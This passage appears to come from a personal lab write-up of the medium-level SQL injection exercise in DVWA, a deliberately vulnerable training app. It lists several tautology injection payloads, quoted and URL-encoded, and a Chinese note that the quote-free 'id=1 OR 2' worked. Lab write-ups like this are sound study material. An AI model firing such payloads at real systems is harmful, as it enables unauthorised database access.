 ![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2053.png)

```json
{
	"id": "3",
	"Submit": "Submit"
}
```

### try

```sql
3' OR '1'='1
```

```sql
id=3'%20OR%20'1'%3D'1&Submit=Submit
```

```sql
id=3' OR '1'%3D'1&Submit=Submit
```

多試幾次之後，發現將 `'` 拿掉就可以注入了 @@

Request Body:

```sql
id=1 OR 2&Submit=Submit
```
